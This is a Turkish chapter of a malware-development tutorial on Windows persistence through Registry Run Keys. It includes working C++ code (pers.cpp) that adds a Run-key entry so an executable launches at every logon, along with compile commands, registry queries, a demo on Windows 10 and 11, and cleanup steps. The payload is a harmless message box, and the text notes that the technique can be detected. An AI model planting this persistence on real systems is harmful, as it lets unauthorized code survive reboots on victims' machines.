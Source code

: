 \newpage
\subsection{67. zararlı yazılım geliştirme: kalıcılık - bölüm 1. Registry Run Keys.  
C++ örneği.}

![pers](./images/51/2022-04-20_09-43.png){width="80%"}    

Bu bölüm, Windows zararlı yazılım kalıcılık teknikleri ve hileleri üzerine bir bölümü başlatmaktadır.     

Bugün, kendi araştırmalarımın sonucu olan “klasik” kalıcılık hilesi: başlangıç klasörü registry anahtarları hakkında yazacağım.     

### run keys

Registry'deki "run keys" anahtarına bir giriş eklemek, ilgili uygulamanın kullanıcı oturum açtığında çalıştırılmasına neden olur. Bu uygulamalar, kullanıcının bağlamında çalıştırılacak ve hesaba bağlı izin seviyelerine sahip olacaktır.     

Aşağıdaki run keys anahtarları, Windows Sistemlerinde varsayılan olarak oluşturulmaktadır:    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-57.png){width="80%"}    

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-58.png){width="80%"}    

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`    

![pers](./images/51/2022-04-20_18-59.png){width="80%"}    

> Lütfen unutmayın, bu başka bir anti-VM (VirtualBox) hilesine işaret etmektedir.   

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce`    

![pers](./images/51/2022-04-20_18-59_1.png){width="80%"}    

Tehdit aktörleri, bu yapılandırma konumlarını kullanarak sistem yeniden başlatıldığında kalıcılığı korumak için zararlı yazılım çalıştırabilirler. Ayrıca, tehdit aktörleri, registry girdilerini meşru programlarla ilişkilendirilmiş gibi göstermek için masquerading tekniğini de kullanabilirler.    

### pratik örnek

Şimdi pratik bir örneğe bakalım. Diyelim ki elimizde bir *"malware"* `hack.cpp` dosyası var:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, 
HINSTANCE hPrevInstance, LPSTR lpCmdLine, 
int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Hadi bunu derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-mwindows -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-08.png){width="80%"}    

Ve bir klasöre kaydedelim  `Z:\\2022-04-20-malware-pers-1\`:    

![pers](./images/51/2022-04-20_19-10.png){width="80%"}    

Daha sonra, Windows'a giriş yaptığımızda `hack.exe` programını çalıştıracak registry anahtarlarını oluşturan `pers.cpp` adlı bir betik yazalım:      

```cpp
/*
pers.cpp
windows low level persistense 
via start folder registry key
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/04/20/malware-pers-1.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-20-malware-pers-1\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Gördüğünüz gibi, mantık oldukça basit. Sadece yeni bir registry anahtarı ekliyoruz. Kalıcılığı sağlamak için terminal üzerinden run keys anahtarlarına kayıt eklenebilir, ancak kod yazmayı sevdiğim için bunu birkaç satır kodla nasıl yapabileceğinizi göstermek istedim.     

### demo

Hadi `pers.cpp` betiğimizi derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/51/2022-04-20_19-20.png){width="80%"}    

Sonra, öncelikle kurbanın makinesindeki registry anahtarlarını kontrol edelim:    

```powershell
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-35.png){width="80%"}    

Daha sonra, `pers.exe` betiğimizi çalıştırıp tekrar kontrol edelim:    

```powershell
.\pers.exe
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-39.png){width="80%"}    

Gördüğünüz gibi, yeni anahtar beklendiği gibi eklendi.    

Şimdi her şeyi çalışırken kontrol edelim. Oturumu kapatıp tekrar giriş yapalım:   

![pers](./images/51/2022-04-20_09-40.png){width="80%"}    

![pers](./images/51/2022-04-20_09-40_1.png){width="80%"}    

![pers](./images/51/2022-04-20_09-44.png){width="80%"}    

Pwn! Her şey mükemmel şekilde çalıştı! :)   

Deneyin sonunda, anahtarları silmeyi unutmayın:   

```powershell
Remove-ItemProperty -Path \
"HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" \
-Name "hack"
reg query \
"HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](./images/51/2022-04-20_09-46.png){width="80%"}    

### windows 11

Bu hile `Windows 11`'de de çalışmaktadır:    

![pers](./images/51/2022-04-21_10-29.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_1.png){width="80%"}    

![pers](./images/51/2022-04-21_10-30_2.png){width="80%"}    

![pers](./images/51/2022-04-21_10-31.png){width="80%"}    

Ve temizleme işlemini yapalım:    

![pers](./images/51/2022-04-21_10-32.png){width="80%"}    

### sonuç

Windows oturum açılışı sırasında zararlı bir uygulamayı çalıştıracak registry anahtarları oluşturmak, red team playbook'larında en eski hilelerden biridir. Metasploit, PowerShell Empire gibi çeşitli tehdit aktörleri ve bilinen araçlar bu yeteneği sağladığından, deneyimli blue team uzmanları bu zararlı aktiviteyi tespit edebilecektir.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[github'taki kaynak kod](https://github.com/cocomelonc/2022-04-20-malware-pers-1)    
